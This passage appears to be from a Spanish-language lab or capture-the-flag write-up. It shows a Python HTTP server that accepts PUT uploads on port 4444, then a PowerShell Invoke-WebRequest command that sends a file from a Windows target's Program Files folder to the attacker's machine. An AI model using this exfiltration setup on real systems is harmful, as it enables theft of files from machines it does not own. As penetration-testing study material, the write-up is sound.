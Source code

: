 Creamos el servidor http en python
```Python
import http.server
import socketserver

class Handler(http.server.SimpleHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        path = self.translate_path(self.path)
        with open(path, 'wb') as f:
            f.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()

PORT = 4444
with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print(f"Serving at port {PORT}")
    httpd.serve_forever()
```

Lo ejecutamos
![[Pasted image 20240807123242.png]]

Y ahora desde la maquina windows ejecutamos el siguiente comando
```
Invoke-WebRequest -Uri "http://10.9.0.118:4444/firewall.vbs" -Method Put -InFile "C:\Program Files (x86)\Spoofer\firewall.vbs"
```
![[Pasted image 20240807123316.png]]

Si volvemos a nuestra maquina veremos que el servidor ha recogido el archivo
![[Pasted image 20240807123343.png]]

Y tenemos por aqui el archivo
![[Pasted image 20240807123416.png]]


